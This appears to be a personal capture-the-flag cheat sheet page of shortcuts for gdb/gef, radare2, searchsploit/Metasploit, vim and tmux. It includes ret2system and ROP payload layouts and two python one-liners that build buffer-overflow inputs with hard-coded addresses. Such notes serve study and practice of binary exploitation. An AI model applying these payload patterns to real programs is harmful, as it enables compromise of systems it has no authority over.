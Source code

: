 ```yaml
---
layout: tips
title: Tips and Tricks
---
```

Syscalls in x32 and x64
==========================
{% highlight bash%}
x86_32
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %eax  | %ebx | %ecx | %edx | %esi | %edi | %ebp |
+---------+------+------+------+------+------+------+
offset_padding + system_addr + 4_bytes_padding + print_flag_cmd

x86_64
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %rax  | %rdi | %rsi | %rdx | %r10 | %r8  | %r9  |
+---------+------+------+------+------+------+------+
offset_padding + pop_rdi_gadget + print_flag_cmd + system_addr
{% endhighlight %}
[Back to the top](#header)

Gdb/Gef
=======
{% highlight bash%}
pattern create 200          :Create cyclic patterm
pattern offset              :Get the offset based on the value off RSP/ESP
info functions              :List fonctions
break * 0x00                :Break at 0x00

#python2 -c 'import struct;print "A"*40 + struct.pack("Q",0x400883)+struct.pack("Q",0x601060)+struct.pack("Q",0x4005e0)' > input
#python2 -c 'from pwn import *;print("A" * 40 + p64(0x0400883) + p64(0x00601060) + p64(0x00400810))' > input

r < input                   :Injecting payload to input
{% endhighlight %}
Additional ressources:
[gef.readthedocs.io][link1]
[hugsy][link2]
[Back to the top](#header)

Radar2
=======
{% highlight bash%}
aaaa                                        :Analyse the binary
afl                                         :List all fonctions
aflj                                        :List all fonctions in Json
aflj:{}                                     :List all fonctions in Json but with better formating
pdf @ function                              :Show the fonction
iz                                          :Show strings
axt 0x0000                                  :Show cross-reference of the address 0x0000
/a pop rdi, ret                             :Search for gadget pop rdi, ret
rabin2 -i <binary>                          :List fonctions in a binary
rabin2 -I <binary>                          :List protections and info about a binary
rabin2 -qs <binary> | grep -ve imp -e ' 0 ' :List fonctions in a binary in an easier format
rabin2 -z <binary>                          :Looking strings in a binary
{% endhighlight %}
[Back to the top](#header)
  


Metasploit shortcut
===================
Updates
{% highlight bash%}
searchsploit -u
apt  update ; apt install metasploit-framework
{% endhighlight %}
Searchsploit
{% highlight bash%}
searchsploit -m :copy exploit in pwn
searchsploit -e :examine exploit
searchsploit -p :print full path
{% endhighlight %}
Load exploit to msf
{% highlight bash%}
msf > loadpath /usr/share/metasploit-framework/modules/
or
mv exploit.rb ~/.msf4/modules/exploit/exploit.rb and msf > reload_all
{% endhighlight %}
sessions -l :list sessions
[Back to the top](#header)

VIM shortcut
=============
{% highlight bash%}
gg            :beginning of the document
G             :end of the document
dd            :delete line
yy            :copy line
p             :paste
gg dG         :delete all
g g " + y G   :yank all line 
: % y +       :yank all line (shorter)
{% endhighlight %}
[Back to the top](#header)

Tmux shortcut
=============
{% highlight bash%}
Ctrl + b c :Create window
Ctrl + b , :Rename current window
Ctrl + b % :Split pane vertically
Ctrl + b " :Split pane horizontally
Ctrl + b z :Toggle pane zoom
Ctrl + b ! :Convert pane into a window
Ctrl + b x :Close current pane
Ctrl + b [ :Enter copy mode
  Ctrl + s      :Enable you to search 
                 (press enter to validate and n for next item)
  Ctrl + space  : Start selecting
  Ctrl + w      :Copy selection
  Ctrl + b + ]  :Paste the selection 
  q : Quit copy mode
/ :Search forward
? :Search backward
n :Next keyword occurance
N :Previous keyword occurance
Spacebar   :Start selection
Esc        :Clear selection
Enter      :Copy selection
Ctrl + b ] : Paste contents of buffer_0
{% endhighlight %}
[Back to the top](#header)

[link1]:https://gef.readthedocs.io/en/master/commands/pattern/ 
[link2]:https://github.com/hugsy/gef
